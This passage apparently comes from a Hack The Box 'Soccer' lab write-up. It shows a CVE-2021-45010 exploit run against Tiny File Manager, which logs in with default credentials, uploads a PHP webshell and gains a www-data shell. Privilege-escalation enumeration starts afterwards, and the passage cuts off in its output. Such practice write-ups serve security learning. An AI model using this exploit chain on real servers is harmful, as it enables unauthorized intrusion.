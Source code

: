     Now I can perform the attack:<br>
    `cve-2021-45010 -u http://soccer.htb/tiny/ -l admin -p admin@123 -g tiny/uploads -r uploads/`
    ```
    PoC for CVE-2021-45010 - Tiny File Manager Version < 2.4.7

    [*] Attempting Login:
            [*] URL      : http://soccer.htb/tiny/
            [*] Username : admin
            [*] Password : admin@123
    [+] Session Cookie 🍪: q4863ddhm6fhqa6bvpj6pgsqqv
    [+] Login Success!
    [+] Vulnerable version detected: 2.4.3
    [*] Attempting to Leak Web Root...
            [+] Got Web Root: /var/www/html/tiny
    [*] Attempting Webshell Upload:
    [*] Filename : yllcuaazec.php
    [*] GUI Path  : tiny/uploads
    [*] Filesystem Path  ../../../../../../../../../../../var/www/html/tiny/uploads/yllcuaazec.php
    [+] Webshell Uploaded!
    [*] Starting Webshell at: http://soccer.htb/tiny/uploads/yllcuaazec.php
            [+] Info: Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
            [+] User: uid=33(www-data) gid=33(www-data) groups=33(www-data)

    Type quit to exit
    ```

    `id`
    ```
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

## Privesc www-data

- `find / -user www-data 2>/dev/null`
    ```
    /run/php
    /run/php/php7.4-fpm.sock
    /var/lib/nginx/proxy
    /var/lib/nginx/proxy/7
    /var/lib/nginx/proxy/7/00
    /var/lib/nginx/proxy/7/01
    /var/lib/nginx/proxy/4
    /var/lib/nginx/proxy/4/02
    /var/lib/nginx/proxy/4/00
    /var/lib/nginx/proxy/4/01
    /var/lib/nginx/proxy/2
    /var/lib/nginx/proxy/2/02
    /var/lib/nginx/proxy/2/00
    /var/lib/nginx/proxy/2/01
    /var/lib/nginx/proxy/8
    /var/lib/nginx/proxy/8/00
    /var/lib/nginx/proxy/8/01
    /var/lib/nginx/proxy/6
    /var/lib/nginx/proxy/6/00
    /var/lib/nginx/proxy/6/01
    /var/lib/nginx/proxy/1
    /var/lib/nginx/proxy/1/02
    /var/lib/nginx/proxy/1/00
    /var/lib/nginx/proxy/1/01
    /var/lib/nginx/proxy/0
    /var/lib/nginx/proxy/0/02
    /var/lib/nginx/proxy/0/01
    /var/lib/nginx/proxy/9
    /var/lib/nginx/proxy/9/00